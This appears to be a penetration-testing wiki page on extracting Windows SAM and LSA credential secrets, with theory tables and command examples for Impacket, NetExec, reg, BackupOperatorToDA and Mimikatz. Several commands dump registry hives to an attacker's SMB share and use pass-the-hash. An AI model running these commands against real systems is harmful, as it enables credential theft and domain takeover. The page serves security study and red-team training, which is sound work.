

# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive     | Details                                                        | Format or credential material                                                                                                                                                                                               |
| -------- | -------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SAM      | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes                                                                                                                                                                                                             |
| SECURITY | stores domain cached credentials (referred to as LSA secrets)  | <p>Plaintext passwords</p><p>LM or NT hashes</p><p>Kerberos keys (DES, AES)</p><p>Domain Cached Credentials (DCC1 and DCC2)</p><p>Security Questions (<code>L$</code><em><code>SQSA</code></em><code>&#x3C;SID></code>)</p> |
| SYSTEM   | contains enough info to decrypt SAM secrets and LSA secrets    | N/A                                                                                                                                                                                                                         |

### SAM Database

The Security Account Manager (SAM) component is responsible for user management. It is present on all Windows computers, including domain controllers. It stores security objects like domains, users, groups/aliases

That's information are stored in registries, with the exception of domain controllers, which store the information in the [NTDS.dit](ntds.md) file. SAM is accessible trought RPC.

<figure><figcaption></figcaption></figure>

### Post Exploitation

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material                      | Subsequent attacks                                                                                                                                                                                                                                                                                                                                                  |
| ---------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords                      | [credential spraying](../../../../ad/movement/credentials/bruteforcing/password-spraying.md), [stuffing](../../../../ad/movement/credentials/bruteforcing/stuffing.md), [shuffling](../../../../ad/movement/credentials/credential-shuffling.md) or [silver tickets](../../../../ad/movement/kerberos/forged-tickets/silver.md)                                     |
| LM and NT hashes                         | [credential spraying](../../../../ad/movement/credentials/bruteforcing/password-spraying.md), [stuffing](../../../../ad/movement/credentials/bruteforcing/stuffing.md), [shuffling](../../../../ad/movement/credentials/credential-shuffling.md), [cracking](../../../../ad/movement/credentials/cracking.md), [pass-the-hash](../../../../ad/movement/ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash)     | [credential cracking](../../../../ad/movement/credentials/cracking.md), [overpass-the-hash](../../../../ad/movement/kerberos/ptk.md) or [silver tickets](../../../../ad/movement/kerberos/forged-tickets/silver.md)                                                                                                                                                 |
| Kerberos keys (DES, AES)                 | [credential cracking](../../../../ad/movement/credentials/cracking.md), [pass-the-key](../../../../ad/movement/kerberos/ptk.md) or [silver tickets](../../../../ad/movement/kerberos/forged-tickets/silver.md)                                                                                                                                                      |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../../../../ad/movement/credentials/cracking.md)                                                                                                                                                                                                                                                                                              |

## Practice



#### Reg.py

[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can be used to remotely save hives from an UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../../../ad/movement/domain-settings/builtin-groups/) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).


The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.


```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# Or backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```

#### Secretsdump

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../../../ad/movement/ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../../../ad/movement/kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k -no-pass 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```

#### NetExec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../../../ad/movement/ntlm/pth.md) (NTLM), or [pass-the-ticket](../../../../ad/movement/kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
netexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
netexec smb $TARGETS --kerberos --sam/--lsa
```



#### REG

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```


Exported hives can be exfiltrated and dumped localy using secretsdump or mimikatz.


#### BackupOperatorToDA

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```


The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.



Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](ntds.md) like demonstrated for an NTDS export.


#### Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```



When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```



Here are some examples and tools that can be used for local/remote/offline dumping.


**Nota bene** secretsdump and netexec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.


## References










